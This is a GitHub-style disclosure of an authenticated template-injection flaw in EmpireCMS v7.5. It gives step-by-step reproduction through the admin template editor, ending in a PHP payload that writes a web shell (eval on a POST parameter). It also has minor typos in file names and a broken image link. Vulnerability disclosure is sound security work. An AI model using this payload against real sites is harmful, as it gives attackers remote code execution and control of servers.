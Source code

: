 # EmpireCMS-Getshell

### Introduction to EmpireCMS 

EmpireCMS is an open-source content management system (CMS).

download link：http://www.phome.net/downcenter/empirecms/ecms75/download/EmpireCMS_7.5_SC_UTF8.zip

### Vulnerability description

EmpireCMS v7.5 has a template injection vulnerability. An authenticated remote attacker can exploit this vulnerability to inject malicious content through the PreviewIndexpage class in e/class/tempfun.php, thereby getting the shell.

### vulnerability analysis

The vulnerability exists in line 425 of tmepfun. Due to the lack of effective validation of the parameter content passed in by the frontend, malicious content can be referenced and generate an index page template file, resulting in malicious content being written

![image-20231206113402099]([https://github.comSecBridge/Cms_Vuls/blob/main/EmpireCMS/image/image-20240730103644857.png](https://github.com/SecBridge/Cms_Vuls/blob/main/EmpireCMS/image/image-20240730103644857.png))

### Vulnerability reproduction

1、Log in to the backend  -> check "模板" -> "管理首页方案" -> Modify template content:

```
Vulnerability verification POC ：<?php phpinf0(); ?>
```

![image-20240730104109557](EmpireCMS-Getshell.assets/image-20240730104109557.png)

2、After submitting, click "预览"：

![image-20240730104436737](EmpireCMS-Getshell.assets/image-20240730104436737.png)

The injected malicious content is referenced and executed：

![image-20240730104534523](EmpireCMS-Getshell.assets/image-20240730104534523.png)

3、The server generates indexpage temporary file，The path is：/e/data/tmp/indexpage{tempid}.php

![image-20240730104922561](EmpireCMS-Getshell.assets/image-20240730104922561.png)

4、POC and change to：

```
test <?php fputs(fopen('shell.php','w'),'<?php eval($_POST[9527])?>');?>
```

Automatically generate shell.chp in e/admin

![image-20240730110245130](EmpireCMS-Getshell.assets/image-20240730110245130.png)



![image-20240730110005192](EmpireCMS-Getshell.assets/image-20240730110005192.png)
